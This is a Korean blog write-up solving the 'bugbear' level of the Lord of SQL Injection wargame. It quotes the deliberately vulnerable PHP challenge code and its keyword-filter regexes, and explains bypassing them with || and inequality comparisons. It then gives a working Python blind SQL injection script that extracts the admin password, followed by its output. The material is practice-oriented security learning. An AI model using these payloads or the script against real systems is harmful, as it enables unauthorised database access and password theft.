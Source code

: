 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - bugbear 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `생각 전환`의 필요성에서 살짝 느꼈던 문제였다.  

뭔가 허점을 찌르는 느낌이었다.  

`bugbear`라는 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='' and no=
---------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

필터링을 보면 뭔가 굉장히 빡세게 걸려있다.  

이 전 문제들에서 사용했던 것들이 대부분 막혀있다.  

하지만 다행인건, `&&`와 `||`은 사용할 수 있다는 것이다.  

그래도 아직 `like`과 `=`를 사용할 수 없기 때문에 비교를 할 수 없다.  

아니 정정하자면, `같은지` 비교를 할 수 없다.  

그럼 반면, 내가 입력한 값보다 `큰지 혹은 작은지`는 비교할 수 있다.  

이 때문에 나는 `부등호`를 사용해서 문제를 풀었다.  

내가 많이 고민했던 부분은 `id='admin'`을 사용할 수 없다는 점이었다.  

`admin`의 `pw`를 출력하긴 해야 하는데, `id='admin'`을 그 어떤 방법으로도 비교할 수 없어 보였다.  

그래서 `부등호를 사용해 비교할 수 있는 값`에 초점을 맞추어 다시 문제를 보았다.  

그러다 눈에 띈 것이 `no`였다.  

아마도 다른 문제들처럼, 각각의 계정에 `no` 값이 부여되어 있을 것이다.  

때문에 부등호를 이용 해 `no`를 비교한다면, `id`가 `admin`인 행을 구할 수 있지 않을까 생각했다.  

이를 확인하기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1&no=1||no<2
```

그랬더니 `Hello guest`가 출력되었다.  

이것저것 시도 해 보니, `?pw=1&no=1||no>1`을 입력하니 `Hello admin`을 얻을 수 있었다.  

일단 `id`가 `admin`인 행을 구할 수 있으니, `pw`의 길이와 값은 이 전 문제와 동일하게 `length()`와 `min()`를 사용하고, 부등호를 통해 비교하게 하면 될 것이다.  

또한 만약 `Hello admin`이 출력 된다면 그 값이 아니라 `해당 값 - 1`을 길이 혹은 pw의 일부라고 생각하면 된다.  

이를 토대로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no=0||no"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + ">1%26%26length(pw)<" + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i - 1
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + ">1%26%26mid(pw," + str(j) + ",1)<char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i - 1)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

너무 한번에 결과가 나와서 당황했는데, 다행히 제대로 된 `pw`를 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 52
[+] Found 3 : 52D
[+] Found 4 : 52DC
[+] Found 5 : 52DC3
[+] Found 6 : 52DC39
[+] Found 7 : 52DC399
[+] Found 8 : 52DC3991
[+] Found password :  52DC3991
[+] End
```

이전 문제들처럼 알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=52dc3991
```

```php
------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=
------------------------------------------------------------------------------------

BUGBEAR Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

`BUGBEAR Clear!!`